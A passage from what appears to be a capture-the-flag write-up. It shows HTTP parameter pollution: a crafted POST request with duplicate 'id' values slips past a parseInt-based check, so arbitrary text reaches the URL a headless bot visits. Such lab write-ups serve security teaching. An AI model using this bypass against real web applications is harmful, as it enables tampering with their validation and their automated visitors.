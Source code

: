 The server prints:

```
web_1                | 2
```

Makes sense, right? Now, let's include another `id` just like this:

```http
POST /report HTTP/1.1
Host: 127.0.0.1:3000
Content-Length: 17
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:3000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:3000/report
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

id=2&id=4&message=fgdf
```

Here's how the server processes it:

```
web_1                | [ '2', '4' ]
```

How does this aid us? Well, given that it utilizes the `parseInt` function to parse the integer and perform checks on the `id`, we can exploit this behavior to our advantage. Strangely, the `parseInt` function only considers the first value from the array and disregards the rest. Therefore, if we provide a valid `id` in the initial `id` parameter, we should have the freedom to input whatever we desire. Let's put this theory to the test.

```
web_1                | [ '2', 'Test' ]
```

The server displays our new `id` alongside a `Test` string. Additionally, we receive the message "Report submitted successfully" on the frontend, confirming that the operation was successful.
But what is the `headless` server's response to this information? Let's inspect the docker logs. While numerous entries are logged, one line specifically displays the request being made.

```
headless-worker_1    | [2024-03-27 14:23:59,090][JOB 20261d76-a20e-475d-9cc8-11ab396f34ad][DEBUG]   - 200 http://web:3000/product/2,Test
```
